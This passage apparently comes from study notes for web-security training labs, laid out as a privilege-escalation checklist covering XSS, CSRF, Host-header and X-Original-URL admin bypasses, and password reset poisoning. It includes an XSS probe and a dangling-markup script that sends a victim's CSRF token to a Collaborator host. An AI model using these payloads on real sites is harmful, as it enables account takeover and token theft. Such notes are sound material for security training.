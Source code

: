 - Check similar bypass methods as the `/admin` panel.

## Search Bar

- XSS `searchterm=test%27%0a<body%20onload=print()>`
- Scan the `searchterm` (or whatever it may be) parameter.

## View Blog Post

- Scan `postId` (or whatever it may be) parameter, i.e. `/post?postId=1`
- See if you can post comments
- Check to see if posts come from GraphQL endpoint



---

# Privilege Escalation

**Overall Notes to Remember**

- Check for TrackingId cookies - SQLi labs
- See if there are pages you have access to now that you didnt before that an admin user might be visiting. Could do XSS (if xss exists) to CSRF to change the admin's email. *From: "Exploiting XSS to perform CSRF"*
- If there is an encrypted `stay-logged-in` cookie, see *Authentication bypass via encryption oracle*
- When gotten carlos's account, change email to the attacker's email provided. Try the same password reset poisoning methods from above (under password reset) by including the `X-Forwarded-Host` or changing the `Host` headers.
- OAUTH recon endpoints
    - ```
      /.well-known/oauth-authorization-server
      /.well-known/openid-configuration
      ```

## Admin Panel

- Change host header to `localhost` to bypass authentication to `/admin`
- Request `/` with the header `X-Original-URL` set to `/admin`
- If all else fails, see the HTTP Request Smuggling labs. They are generally are used to access `/admin`. 

## My Account

- Check if after authentication any other cookies are added. See if they are serialized. 
- Check the update email feature response for roleID information. 
    - Or see if there's a `/role-selector` follow-up request after authetnicating like from *Authentication bypass via flawed state machine*
    - See if you can change the information to admin and affect admin's data (username, email, password, etc.)
- Check for XSS in parameters for the change email feature. *From: Reflected XSS protected by CSP, with dangling markup attack*
    - That lab was more so if you can input the email value into the field via the URL, i.e. `https://your-lab-id.web-security-academy.net/my-account?email=test@test.com`. If it autofills, can use this exploit server xss code: `<script> location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?'; </script>`. This can get their CSRF token.
- Check the update email request for csrf tokens. Change request method to GET and see if token is still required. Could CSRF the admin. 
    - Also test if the csrf token is even required in POST or GET requests. 
    - If csrf tokens are changing every time, they may be one-time-use and not tied to user session. Grab an unused csrf token (drop a valid request) and put that in the csrf poc for the exploit server. 
    - If csrf token is in cookie and body, see "CSRF where token is duplicated in cookie"